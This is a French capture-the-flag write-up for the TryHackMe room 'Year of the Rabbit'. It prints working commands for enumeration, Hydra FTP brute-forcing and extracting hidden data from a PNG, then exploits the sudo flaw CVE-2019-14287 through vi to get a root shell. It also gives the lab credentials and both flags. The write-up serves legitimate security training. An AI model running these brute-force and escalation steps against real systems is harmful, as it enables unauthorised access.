---
tags:
  - Linux
  - TryHackMe
  - Facile
  - Nmap
  - FTP
  - Hydra
  - Steganographie
  - CVE
  - Sudo
---

# Year of the Rabbit - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Facile |
| **Thématiques** | Rabbit holes, stéganographie, FTP, Brainfuck, CVE-2019-14287 sudo |
| **Prérequis** | Bases Linux, HTTP, FTP, manipulation d'images, connaissance des CVE sudo |

## Contexte et objectifs

Cette room est construite autour de fausses pistes intentionnelles. L'objectif est de traverser plusieurs leurres pour trouver une image cachée dans une page web, en extraire une liste de mots de passe, bruteforcer un accès FTP, décoder un fichier en Brainfuck, et exploiter CVE-2019-14287 pour devenir root via vim.

!!! info "À propos de cette room"
    Year of the Rabbit teste la patience et la méthode : les rabbit holes sont nombreux et délibérés. Elle introduit des concepts originaux comme la stéganographie dans une image PNG accessible via une redirection HTTP silencieuse, et le décodage de langage ésotérique Brainfuck pour obtenir des credentials SSH.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

On commence par identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_cible>
```

[](./screen/YearOfTheRabbit/WindowsTerminal_Zq4QYwhsPD.png)

Trois ports ouverts :
- **21/tcp** : FTP
- **22/tcp** : SSH
- **80/tcp** : HTTP

### Étape 2 : Enumération web et découverte de la page cachée

On s'intéresse d'abord au port 80. Le site affiche la page par défaut d'Apache, sans contenu visible en surface. On lance une énumération de répertoires pour trouver des chemins cachés :

```bash
gobuster dir -u http://<IP_cible> -w /usr/share/wordlists/dirb/common.txt
```

[](./screen/YearOfTheRabbit/WindowsTerminal_uCepLPFmn1.png)

Gobuster révèle un répertoire `/assets`. On le visite et on l'examine : il contient notamment un fichier `style.css`. En lisant ce fichier CSS, on trouve un commentaire qui pointe vers un chemin non référencé : `/sup3r_s3cr3t_fl4g.php`.

[](./screen/YearOfTheRabbit/KbrR0naa3L.png)

On visite donc ce chemin directement dans le navigateur : une alerte JavaScript apparaît, "Word of advice... Turn off your javascript...", avant que la page ne redirige vers une vidéo Rick Roll.

[](./screen/YearOfTheRabbit/msrdc_3HExC0vD2Q.png)

On suit le conseil et on désactive JavaScript dans les paramètres du navigateur :

[](./screen/YearOfTheRabbit/msrdc_HuWjLjMjrH.png)

En revisitant la page avec JS désactivé, les balises `<noscript>` s'affichent : "The hint is in the video." C'est une fausse piste, le répertoire caché n'est pas dans la vidéo.

[](./screen/YearOfTheRabbit/msrdc_9C9pRrqgMf.png)

La vidéo étant un leurre, on change d'angle : plutôt que de suivre ce que le navigateur affiche, on regarde ce que le serveur envoie réellement, car le navigateur traite et masque automatiquement certaines informations. Le serveur PHP envoie en fait une **redirection HTTP 302** dont l'en-tête `Location` contient le répertoire caché. Un navigateur classique suit cette redirection en une fraction de seconde sans jamais l'afficher, on ne voit que la page de destination. `curl -v` affiche tous les en-têtes bruts de la réponse et permet de la capturer :

```bash
curl -v http://<IP_cible>/sup3r_s3cr3t_fl4g.php
```

[](./screen/YearOfTheRabbit/WindowsTerminal_q36MjYCpzT.png)

!!! info "Pourquoi curl sans option retourne rien ?"
    Une réponse HTTP 302 a un corps vide, seuls les en-têtes transportent l'information (le `Location`). `curl` sans options n'affiche que le corps, donc rien. Avec `-v` (verbose), curl affiche aussi les en-têtes de requête et de réponse, révélant le `Location`.

La réponse HTTP contient : `Location: intermediary.php?hidden_directory=/WExYY2Cv-qU`

Le répertoire caché est `/WExYY2Cv-qU`. On le visite dans le navigateur : il contient une seule image, `Hot_Babe.png`. On la télécharge :

```bash
wget http://<IP_cible>/WExYY2Cv-qU/Hot_Babe.png
```

[](./screen/YearOfTheRabbit/WindowsTerminal_4s2Qmg8460.png)

!!! tip "Rabbit hole : la redirection JavaScript et le message noscript"
    L'alerte JS, la redirection vers YouTube et le message "hint is in the video" sont tous des leurres. La vraie information est dans la redirection HTTP 302 serveur, capturée avec `curl -v`.

### Étape 3 : Extraction de la wordlist depuis l'image

On examine maintenant `Hot_Babe.png`, téléchargée à l'étape précédente, pour voir si elle dissimule des données. L'outil `strings` permet d'extraire toutes les séquences de caractères lisibles contenues dans n'importe quel fichier binaire :

```bash
strings Hot_Babe.png
```

[](./screen/YearOfTheRabbit/WindowsTerminal_UvuvjLslrq.png)

La sortie révèle, après les métadonnées PNG habituelles, une section en clair : le nom d'utilisateur FTP `ftpuser` suivi d'une liste de mots de passe potentiels. L'auteur de la room a simplement ajouté ces données en clair après les octets de l'image, ce qui les rend invisibles visuellement mais extractibles avec `strings`.

!!! info "Pourquoi des données texte dans une image ?"
    `strings` extrait toute séquence de 4 caractères ASCII imprimables ou plus dans un fichier binaire. Une image PNG est un fichier binaire : il suffit d'y ajouter du texte après le marqueur de fin `IEND` pour le cacher visuellement tout en le rendant extractible avec cet outil. Ce n'est pas de la vraie stéganographie (l'image n'est pas modifiée visuellement), mais une technique simple d'obscurcissement.

`strings` confirme la présence du texte caché mais n'indique pas sa position dans le fichier. Pour la retrouver, on cherche directement la ligne de départ avec `grep`, en forçant le traitement du binaire comme du texte (`-a`) et en affichant le numéro de ligne (`-n`) :

```bash
grep -an 'ftpuser' Hot_Babe.png
```

Le nom d'utilisateur apparaît à la ligne 1792. On utilise cette information pour extraire directement la section utile du fichier PNG avec sed :

```bash
sed -n '1792,$p' Hot_Babe.png > passwords.txt
```

[](./screen/YearOfTheRabbit/WindowsTerminal_tJHBkF6MhC.png)

!!! tip "Pourquoi cette commande ?"
    `-n` désactive l'affichage automatique de sed, rien ne sort sauf ce qu'on demande explicitement. `'1792,$p'` définit une plage de lignes, de la ligne 1792 jusqu'à `$` (la dernière ligne du fichier), et `p` ("print") affiche cette plage. `> passwords.txt` redirige le résultat vers un nouveau fichier.

### Étape 4 : Brute-force FTP avec Hydra

`strings` a révélé que le nom d'utilisateur FTP est `ftpuser`, et que l'image contient une liste de mots de passe potentiels. On ne sait pas lequel est le bon, on utilise Hydra pour tester toute la liste automatiquement contre le service FTP :

```bash
hydra -l ftpuser -P passwords.txt ftp://<IP_cible>
```

[](./screen/YearOfTheRabbit/WindowsTerminal_K0Sg4WuNzi.png)

Hydra trouve le mot de passe valide parmi la liste. Mot de passe trouvé : **5iez1wGXKfPKQ**

### Étape 5 : Connexion FTP et récupération du fichier Brainfuck

Avec les credentials `ftpuser` / `5iez1wGXKfPKQ` découverts par Hydra, on se connecte au FTP pour voir ce qu'il contient :

```bash
ftp <IP_cible>
# Username: ftpuser, Password: 5iez1wGXKfPKQ
ls
```

[](./screen/YearOfTheRabbit/WindowsTerminal_Ger05DiLBW.png)

Le serveur FTP contient un seul fichier : `Eli's_Creds.txt`. On le télécharge en local :

```bash
get Eli's_Creds.txt
```

[](./screen/YearOfTheRabbit/WindowsTerminal_MCEjRr0Q7t.png)

Le fichier ne contient pas des credentials lisibles, mais du code Brainfuck, un langage de programmation ésotérique constitué de 8 caractères (`+`, `-`, `>`, `<`, `[`, `]`, `.`, `,`). Il est utilisé ici pour obfusquer un message.

!!! info "Qu'est-ce que Brainfuck ?"
    Brainfuck est un langage de programmation ésotérique inventé en 1993, constitué uniquement de 8 caractères : `+`, `-`, `>`, `<`, `[`, `]`, `.` et `,`. Chaque caractère manipule un tableau de mémoire et un pointeur. Bien que Turing-complet (capable de tout calculer), il est intentionnellement difficile à lire. Il est parfois utilisé en CTF pour obfusquer des messages, car une suite de symboles incompréhensibles peut décourager un observateur non averti. Des décodeurs en ligne (dcode.fr, copy.sh/brainfuck) permettent de l'interpréter instantanément.

On colle le contenu dans un décodeur en ligne (dcode.fr ou copy.sh/brainfuck) pour obtenir les credentials en clair :

[](./screen/YearOfTheRabbit/brave_06QkJbcoaK.png)

On obtient des credentials pour un utilisateur :
- **Username** : `eli`
- **Password** : `DSpDiM1wAEwid`

Rien n'indique encore à quel service ils sont destinés. Le port 22 (SSH) étant ouvert d'après le scan Nmap de l'étape 1, et FTP étant déjà utilisé avec d'autres identifiants, on suppose qu'il s'agit de credentials SSH.

### Étape 6 : Connexion SSH et découverte du mot de passe de gwendoline

On teste l'hypothèse SSH formulée à l'étape précédente avec les credentials d'eli obtenus par décodage Brainfuck :

```bash
ssh eli@<IP_cible>
```

[](./screen/YearOfTheRabbit/WindowsTerminal_J7dGrR2jY6.png)

La connexion réussit. Le shell affiche un message de bienvenue inhabituel au login : "Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there." Ce message n'est pas adressé à eli mais à gwendoline, et il mentionne explicitement un emplacement de fichier à trouver. C'est la raison pour laquelle on cherche ce fichier.

Le message mentionne un "leet s3cr3t hiding place" sans préciser le chemin exact. On recherche tout élément nommé `s3cr3t` sur le système, sans filtrer par type puisqu'on ne sait pas encore si c'est un fichier ou un dossier :

```bash
find / -name s3cr3t 2>/dev/null
```

[](./screen/YearOfTheRabbit/WindowsTerminal_ytKqHG71xK.png)

La commande trouve `/usr/games/s3cr3t`. On s'y déplace et on liste le contenu, y compris les fichiers :

```bash
cd /usr/games/s3cr3t
ls -la
```

[](./screen/YearOfTheRabbit/WindowsTerminal_biDoxouxcY.png)

Il contient un fichier caché (préfixé par `.`) nommé `.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`. On le lit :

```bash
cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
```

[](./screen/YearOfTheRabbit/odVlWMBnKH.png)

Le fichier contient un message de root à gwendoline se moquant de la faiblesse de son mot de passe, et le révèle en clair : **MniVCQVhQHUNI**

On change d'utilisateur en entrant ce mot de passe :

```bash
su gwendoline
```

### Étape 7 : Flag utilisateur

Maintenant connecté en tant que gwendoline, on récupère le flag utilisateur :

```bash
cat /home/gwendoline/user.txt
```

[](./screen/YearOfTheRabbit/WindowsTerminal_iyZEt7HXrt.png)

!!! success "Réponse"
    **User flag** → `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

### Étape 8 : Exploitation de CVE-2019-14287 (sudo bypass)

Le flag utilisateur obtenu, on passe à l'élévation de privilèges. L'escalade classique commence par vérifier ce que cet utilisateur peut exécuter avec sudo :

```bash
sudo -l
```

[](./screen/YearOfTheRabbit/WindowsTerminal_Kn9lTuxcnu.png)

Le résultat révèle que gwendoline peut exécuter `/usr/bin/vi` sur son propre `user.txt` en tant que n'importe quel utilisateur, avec une restriction explicite : `!root`. En apparence, cette règle semble sûre, on ne peut pas devenir root. Mais c'est précisément ce que CVE-2019-14287 contourne.

!!! info "CVE-2019-14287 - Comment ça fonctionne ?"
    La règle `(ALL, !root)` autorise gwendoline à lancer vi en tant que n'importe quel utilisateur, sauf root, en théorie. En interne, sudo n'identifie pas les utilisateurs par leur nom mais par un numéro, l'UID. Root a toujours l'UID 0.

    Sur les versions de sudo antérieures à 1.8.28, on peut préciser cet UID directement avec la syntaxe `-u#<numéro>`. En demandant `-u#-1`, on envoie un UID négatif qui n'existe pas. Le bug vient de l'ordre des opérations : sudo vérifie d'abord la règle `!root` sur le `-1` tel quel, qui n'est pas root, donc c'est autorisé. Ce n'est qu'après cette vérification que sudo convertit ce `-1` en interne, et c'est à ce moment-là qu'il se transforme accidentellement en 0, l'UID de root. La commande s'exécute donc avec les droits root sans que la vérification de sécurité ne s'en aperçoive.

On exploite la faille en passant l'UID `-1` avec la notation `#` de sudo :

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

[](./screen/YearOfTheRabbit/WindowsTerminal_FxTGISb8Lr.png)

vi s'ouvre avec les droits root. Pour obtenir un shell depuis vim, on passe en mode commande en appuyant sur `Échap`, puis on tape `:` pour ouvrir la ligne de commande. On exécute directement bash :

```
:!/bin/bash
```

`!/bin/bash` demande à vim d'exécuter `/bin/bash` comme commande externe. Puisque vim tourne avec les droits root, le shell obtenu est root.

[](./screen/YearOfTheRabbit/WindowsTerminal_tkLFkECvco.png)

On lit le flag root :

```bash
cat /root/root.txt
```

[](./screen/YearOfTheRabbit/WindowsTerminal_8HLhklcHR2.png)

!!! success "Réponse"
    **Root flag** → `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | Données cachées dans une image PNG, FTP avec mot de passe faible, version sudo vulnérable (CVE-2019-14287) |
| **Techniques utilisées** | Analyse de trafic HTTP, stéganographie texte dans image, brute-force FTP, décodage Brainfuck, sudo UID bypass |
| **Outils employés** | Nmap, Gobuster, wget, strings, sed, Hydra, FTP, décodeur Brainfuck en ligne |

!!! abstract "Ce qu'il faut retenir"
    1. `curl -v` révèle les en-têtes HTTP bruts, dont les redirections 302 invisibles dans le navigateur. Un corps vide ne signifie pas une réponse vide, les en-têtes peuvent contenir l'information essentielle.
    2. Des données peuvent être cachées dans les octets d'une image sans altérer son affichage visuel, `strings` les extrait.
    3. CVE-2019-14287 illustre pourquoi les restrictions sudo doivent être auditées régulièrement : une formulation apparemment sécurisée peut être contournée par une fonctionnalité non anticipée.
    4. Tout éditeur de texte avec une fonction "shell" ou "exécution de commande" (`!`) est un vecteur d'escalade de privilèges si lancé avec sudo.
